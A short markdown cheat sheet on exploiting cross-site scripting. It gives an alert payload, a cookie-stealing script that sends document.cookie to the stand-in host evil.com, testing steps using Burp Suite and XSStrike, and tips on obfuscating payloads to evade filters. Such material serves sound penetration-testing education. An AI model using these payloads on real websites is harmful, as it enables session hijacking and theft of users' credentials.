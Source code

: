 # 🔥 Exploiting XSS (Cross-Site Scripting)

## Overview
XSS allows attackers to execute malicious JavaScript in a victim's browser.

## Example Payloads
1. Basic Alert:
    ```html
    <script>alert('XSS');</script>
    ```
2. Stealing Cookies:
    ```html
    <script>document.location='http://evil.com?c='+document.cookie;</script>
    ```

## Steps
1. Identify vulnerable input fields.
2. Test with various payloads (HTML, JavaScript, attributes).
3. Use tools like Burp Suite and XSStrike for automated testing.

## Tips
- Use obfuscation techniques to bypass filters.
- Test various vectors (URL parameters, headers, POST data).
